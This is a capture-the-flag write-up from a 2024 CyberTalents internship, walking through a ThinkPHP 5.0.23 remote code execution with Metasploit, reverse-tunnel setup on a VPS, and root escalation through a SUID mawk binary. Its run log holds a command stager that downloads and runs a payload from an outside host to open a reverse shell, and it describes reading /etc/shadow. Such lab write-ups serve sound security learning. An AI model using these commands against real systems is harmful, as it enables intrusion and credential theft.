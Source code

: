```yaml
---
title: AWKWARD Writeup | CyberTalents Penetration Testing Internship Program 2024
  CTF
tags:
- cybersecurity
- cybertalents
- php
- awk
- ctf
---
```


# AWKWARD - Medium

## Exploitation

First, when I opened the given link, I noticed that it is a like a template.

![home page](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-1.png)
![technology stack](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-2.png)

So, I went to search for exploits for it and I found a module that exploits an RCE vulnerability in it using `metasploit` framework. The module is called `exploit/unix/webapp/thinkphp_rce`.

![search module in msf](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-3.png)

I tried to use the module, but it did not work, although it said that the version `5.0.23` is vulnerable.

I spent a lot of time trying to find a way to exploit it. Upon searching for the reason, I discovered that to get remote shells on the target, I have to use a VPS, or enable `Port Forwarding` on my router, which is not possible for security reasons obviously :).

So, I went to learn about spinning up a Virtual Private Server (VPS) on DigitalOcean in order to get reverse shells! This was my first time.

Then, I connected to it and edited the file `/etc/ssh/sshd_config` and added:

``` bash
PortForwarding yes
GatewayPorts yes
```

Then restarted the service. Now, our server is ready to get reverse shells.

But first, we need to do a reverse tunnel from my - attacking - machine to the VPS on the port which will receive the reverse shell from the target machine. This [article](https://medium.com/@nikosch86/how-to-metasploit-behind-a-nat-or-pivoting-and-reverse-tunneling-with-meterpreter-1e747e7fa901) helped me to understand that more! So, I connected via a reverse ssh tunnel to the VPS on port `7777`:

![alt text](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image.png)

I set the `LPORT` to `7777`, `LHOST` to the VPS IP, and the `RHOST` to the target machine IP, `VHOST` to the url of the website!

After that, I went back to the exploit and tried to make it work, however, it would say `Server Stopped` and I could not get a reverse shell.

I changed the payload from `reverse_tcp` to `bind_tcp`, even used `reverse_http` but it did not work. I increased the waiting time to get the connection to 20 seconds because it kept telling me that the connection had timeout although `Command Stager Progress was always 100%`. I even changed the payload to a simpler one: `linux/x64/shell_reverse_tcp` but it did not work too.

The `Server Stopped` message was the key here! So, I turned my focus to the `CMDStager` options: `SRVHOST`, and `SRVPORT`.
Initially, they were set to `0.0.0.0` and `8080` respectively. I changed the `SRVHOST` to the VPS IP and the `SRVPORT` to `7777` and it did not work too!

After carefully understand the issue again, I noticed that I did not open a reverse tunnel of port `8080` to the VPS. So, I did that and set the `SRVPORT` to `8080` and it worked!

![8080 reverse tunnel](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-4.png)

the final options were:

``` bash
msf6 exploit(unix/webapp/thinkphp_rce) > options

Module options (exploit/unix/webapp/thinkphp_rce):

   Name       Current Setting                              Required  Description
   ----       ---------------                              --------  -----------
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     13.56.31.114                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                                                     cs/using-metasploit.html
   RPORT      80                                           yes       The target port (TCP)
   SSL        false                                        no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                                 no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                            yes       Base path
   URIPATH                                                 no        The URI to use for this exploit (default is random)
   VHOST      wcomj0wz05phw3oe6dv911kb43lgrdzlwq6oiy3l-we  no        HTTP server virtual host
              b.cybertalentslabs.com


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                        listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  [VPS IP]         yes       The listen address (an interface may be specified)
   LPORT  7777             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.
```

After hitting `run`, we got a shell on the target machine:

``` bash
msf6 exploit(unix/webapp/thinkphp_rce) > run

[-] Handler failed to bind to 167.172.170.218:7777:-  -
[*] Started reverse TCP handler on 0.0.0.0:7777 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ThinkPHP 5.0.23 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.23 automatically
[*] Using URL: http://167.172.170.218:8080/EIQ6EWBsN3W
[*] Generated command stager: ["curl -so /tmp/sXGKarJH http://167.172.170.218:8080/EIQ6EWBsN3W;chmod +x /tmp/sXGKarJH;/tmp/sXGKarJH;rm -f /tmp/sXGKarJH"]
[*] Executing command: curl -so /tmp/sXGKarJH http://167.172.170.218:8080/EIQ6EWBsN3W;chmod +x /tmp/sXGKarJH;/tmp/sXGKarJH;rm -f /tmp/sXGKarJH
[*] Client 127.0.0.1 (curl/7.52.1) requested /EIQ6EWBsN3W
[*] Sending payload to 127.0.0.1 (curl/7.52.1)
[*] Command shell session 1 opened (127.0.0.1:7777 -> 127.0.0.1:37760) at 2024-08-02 08:24:37 -0400


[+] Successfully executed command: curl -so /tmp/sXGKarJH http://167.172.170.218:8080/EIQ6EWBsN3W;chmod +x /tmp/sXGKarJH;/tmp/sXGKarJH;rm -f /tmp/sXGKarJH
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.



id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
/bin/bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
<rdzlwq6oiy3l-web-7597fd5dbc-6s8x7:/var/www/public$ ls -lah
ls -lah
total 184K
drwxrwxr-x 1 www-data www-data   37 Aug  2 12:17 .
drwxr-xr-x 1 www-data www-data   35 Jan 11  2019 ..
-rw-rw-r-- 1 www-data www-data  216 Dec 10  2018 .htaccess
-rw------- 1 www-data www-data 200K Aug  2 12:17 core.102
-rw------- 1 www-data www-data 200K Aug  2 12:17 core.98
-rw-rw-r-- 1 www-data www-data 1.2K Dec 10  2018 favicon.ico
-rw-rw-r-- 1 www-data www-data  766 Dec 10  2018 index.php
-rw-rw-r-- 1 www-data www-data   24 Dec 10  2018 robots.txt
-rw-rw-r-- 1 www-data www-data  840 Dec 10  2018 router.php
drwxrwxr-x 1 www-data www-data   24 Dec 10  2018 static
```

## Privilege Escalation

I went to check the files on the system, and I found a user under the `/home` directory called `james`. I checked the `sudo` commands for the current user (`www-data`) but sudo was not installed on the server.

I checked the home directory of the user `james` and found nothing interesting:

![james home directory](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-5.png)

even the `tar` executable belongs to `root` and we can execute it, it will execute with `james` privileges, not `root` privileges.

Which actually makes us think about the SUID binaries, which can be executed as root! I used the command `find / -perm -u=s -type f 2>/dev/null` and found this:

![alt text](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-6.png)

From the output, I opened [GTFOBins - mawk](https://gtfobins.github.io/gtfobins/mawk/#suid) and found that we can read files as root using `mawk`, so I tested that and read the `/etc/shadow` file:

![gtfo bins mawk](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-7.png)

![reading shadow file](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-8.png)

I got the hash of the user `james` and checked [CrackStation.net](https://crackstation.net/) but did not find the password.

![crackstation james](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-11.png)

When I looked back to the page of `GTFOBins`, I found that we can execute commands as root using `mawk`! So, I tried to execute the command `id` as root and it worked!

![gtfo bins mawk root shell](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-9.png)

![got root and flag](https://raw.githubusercontent.com/omar-danasoury/personal-website/master/assets/images/posts/cybertalents-ctf-awkward/image-10.png)

From there, we can read the flag as shown in the screenshot!

``` bash
cat /root/flag
FLAG{awk3D_m4y_w4y_in}
```

## References

1. [How to Metasploit Behind a NAT or: Pivoting and Reverse Tunneling with Meterpreter](https://medium.com/@nikosch86/how-to-metasploit-behind-a-nat-or-pivoting-and-reverse-tunneling-with-meterpreter-1e747e7fa901).
2. [GTFOBins - mawk](https://gtfobins.github.io/gtfobins/mawk/#suid).
3. [CrackStation.net](https://crackstation.net/).
